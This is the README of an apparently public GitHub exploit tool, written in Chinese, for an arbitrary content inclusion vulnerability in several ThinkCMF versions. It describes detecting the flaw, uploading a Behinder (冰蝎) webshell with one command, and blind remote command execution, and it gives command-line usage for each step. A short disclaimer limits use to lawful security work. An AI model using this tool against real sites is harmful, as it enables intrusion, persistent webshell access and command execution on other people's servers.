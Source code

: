 # 说明：
本工具适用于Thinkcmf任意内容包含漏洞，提供一般检测，一键上传冰蝎马，以及无回显命令执行功能。ThinkCMF是一款基于PHP+MYSQL开发的中文内容管理框架，底层采用ThinkPHP3.2.3构建。

本工具仅限安全从业者在法律法规允许的范围内使用，违规使用后果自负。

# 适用版本：
ThinkCMF X1.6.0
ThinkCMF X2.1.0
ThinkCMF X2.2.0
ThinkCMF X2.2.1
ThinkCMF X2.2.2
ThinkCMF X2.2.3

ThinkCMF源码下载地址https://gitee.com/thinkcmf/ThinkCMFX/releases

# 使用说明:
### 检测漏洞是否存在
python thinkcmf_exp.py -u http://yourURL/
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E6%A3%80%E6%B5%8B%E6%BC%8F%E6%B4%9E.png)

### 上传冰蝎马
python thinkcmf_exp.py -u http://yourURL/ -p yourPassword
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E4%B8%8A%E4%BC%A0%E5%86%B0%E8%9D%8E.png)
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E4%B8%8A%E4%BC%A0%E6%88%90%E5%8A%9F.png)

### 无回显命令执行
python thinkcmf_exp.py -u http://yourURL/ -c yourCommand
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E5%91%BD%E4%BB%A4%E6%89%A7%E8%A1%8C.png)
![image](https://github.com/bo1349/Thinkcmf_RCE/blob/master/%E6%89%A7%E8%A1%8C%E6%88%90%E5%8A%9F.png)
